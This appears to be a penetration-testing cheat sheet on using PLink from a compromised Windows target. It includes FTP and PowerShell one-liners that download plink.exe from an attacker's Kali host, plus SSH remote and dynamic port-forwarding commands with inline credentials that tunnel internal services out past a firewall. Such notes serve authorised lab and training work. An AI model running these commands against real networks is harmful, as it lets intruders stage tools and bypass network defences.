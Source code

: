 ## PLink

Windows based command line SSH client

Syntax is similar to Linux's SSH client.

### Cheat Sheet to Download

Start FTP server on Kali

Run on the target to grab the files from Kali

```powershell
echo open 192.168.119.216 21> ftp.txt
echo USER rock>> ftp.txt
echo roll>> ftp.txt
echo passive >> ftp.txt
echo bin >> ftp.txt
echo GET plink.exe >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
```

Or with Powershell, start a webserver on Kali and run on the target:

```bash
mkdir c:\temp
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.216:80/plink.exe','C:\temp\plink.exe')"
```



### SSH Remote Port Forwarding Example

Assume a Windows 10 client has a MySQL server that is inaccessible to the Internet due to a firewall, but we want to scan it directly from our Kali machine.

The basic command is run on the Windows 10 client to make a remote port forward, but note the caveats in the 'Troubleshooting' section

```powershell
plink.exe -ssh -l coyote -R 192.168.119.216:1234:127.0.0.1:445 192.168.119.216

plink.exe -ssh -l coyote -pw ilak -R 192.168.119.216:1234:10.11.1.1:3306 192.168.119.216

# Options
-ssh	# Specifies an SSH connection
-l 	# SSH username
-pw	# SSH password
-R	# Remote Bind option
192.168.119.216:1234:127.0.0.1:3306 # Specifies that a listener will be opened on the remote end (192.168.119.216:1234) that will forward connections to the local port (127.0.0.1:3306) 
192.168.119.216	# IP to connect to for the SSH session
```

### SSH Dynamic Port Forwarding Example

```powershell
plink.exe -ssh -D 127.0.0.1:4455 -l rcoyote 192.168.119.216 -N

# Options
-D	# Specigies the local IP and port to listen on for SOCKS proxy connections (Remember to open a firewall port on the target)
```

#### Troubleshooting

If you try to execute the command above and get this error:  `FATAL ERROR: Couldn't agree a key exchange algorithm`, try to download the latest version of plink.exe.

Another issue occurs with a non-interactive prompt.  When connecting to an SSH server for the first time, plink will ask for you to accept the certificate.  But in a non-interactive prompt, this won't display, so we need to pass the answer to that question to the server as well, by revising our command to this:

```powershell
cmd.exe /c echo y | plink.exe -ssh -l coyote -pw ilak -R 192.168.119.216:1234:127.0.0.1:3306 192.168.119.216
```

